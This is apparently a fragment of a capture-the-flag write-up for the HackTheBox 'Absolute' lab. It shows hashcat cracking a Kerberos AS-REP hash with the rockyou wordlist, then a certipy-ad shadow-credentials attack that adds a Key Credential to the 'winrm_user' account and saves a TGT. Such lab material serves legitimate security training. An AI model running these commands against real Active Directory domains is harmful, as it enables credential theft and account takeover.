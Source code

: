 

```bash
❯ hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

...[snip]...

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$winrm_user@ABSOLUTE.HTB:764eee4e1c1d2...b40aad
```



```bash
certipy-ad shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '32530448-a4c9-745b-059c-18ba472dc78f'
[*] Adding Key Credential with device ID '32530448-a4c9-745b-059c-18ba472dc78f' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '32530448-a4c9-745b-059c-18ba472dc78f' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': None
```









